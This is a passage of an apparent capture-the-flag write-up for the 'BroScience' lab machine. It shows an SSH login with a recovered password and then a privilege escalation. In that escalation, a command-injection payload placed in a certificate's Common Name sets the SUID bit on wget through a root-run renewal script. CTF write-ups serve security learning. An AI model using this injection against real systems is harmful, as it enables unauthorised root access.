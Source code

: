 Great we got to bill's password and we know bill is a user from /etc/passwd lets login.


### SSH Login

```
$ ssh bill@broscience.htb
password: iluvhorsesandgym
-bash-5.1$ whoami && id && cat /home/bill/user.txt
bill
uid=1000(bill) gid=1000(bill) groups=1000(bill)
9716ea15530a87f3c7db8c6d3cd9c0ac
```

### Privilege Escalation  

After a little of enumeration I saw the following script is automated: `/bin/bash /opt/renew_cert.sh /home/bill/Certs/broscience.crt` so I went and checked the renew_cert.sh file and there is a certain command that's a little bit shady:

`openssl x509 -in $1 -noout -subject | cut -d "=" -f2-`

This command is bad, but good for us and I'll explain. When running openssl the `-subject` with a certificate it will output you all subjects in the certificate, those subjects refer to identity information e.g. Country, Company Name, etc. We can create a new certificate called "/home/bill/Certs/broscience.crt" and the automation command will run the script on certificate and if we enter in a payload in one of the subjects that will execute as soon as it will output the subjects that we could run command as root. So enough with the theoretical stuff and lets roll.


```

bill@broscience:~/Certs$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /home/bill/Certs/broscience.key -out /ho
me/bill/Certs/broscience.crt -days 1 
Generating a RSA private key
........................................................................................++++
........................++++
writing new private key to '/home/bill/Certs/broscience.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank   
For some fields there will be a default value,              
If you enter '.', the field will be left blank.             
-----
Country Name (2 letter code) [AU]:blabla                       
State or Province Name (full name) [Some-State]:blabla      
Locality Name (eg, city) []:blabla                       
Organization Name (eg, company) [Internet Widgits Pty Ltd]:blabla
Organizational Unit Name (eg, section) []:blabla           
Common Name (e.g. server FQDN or YOUR name) []:$(chmod u+s /usr/bin/wget)
Email Address []:0xfy@mamy.com

```
